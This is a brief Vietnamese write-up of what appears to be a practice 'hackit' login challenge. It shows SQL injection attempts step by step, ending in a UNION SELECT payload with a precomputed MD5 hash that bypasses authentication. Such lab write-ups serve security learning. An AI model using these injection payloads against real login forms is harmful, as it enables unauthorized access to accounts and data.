

## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 7/5/2022

- Đầu tiên ta thử đăng nhập với username và password bất kì. Kết quả trả về không có user phù hợp.
  
  

- Ta thử loginbypass với <code>' or '1'='1</code> thì đăng nhập sai, với <code>admin' or 1=1--</code> thì bị vô hiệu hóa.
  
  

- Lần này ta thử boolean <code>'1=1</code>, kết quả trả về là <code>Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/html/hackit/level5.php on line 46</code>. Vậy, ta có thể tấn công boolean username.
  
  

- Ở đây, gợi ý password đã được mã hóa bởi MD5 nên câu truy vấn có thể là <code>select user,password from users WHERE password=MD5($password) and user='$user';</code>
- Ta sẽ thử chèn <code>' union select 'a','202cb962ac59075b964b07152d234b70</code> vào user và <code>123</code>. (Với <code>202cb962ac59075b964b07152d234b70</code> là mã hóa md5 của <code>123</code>) Để trả về lỗi boolean true.
  
  

- Như vậy, ta đã thành công.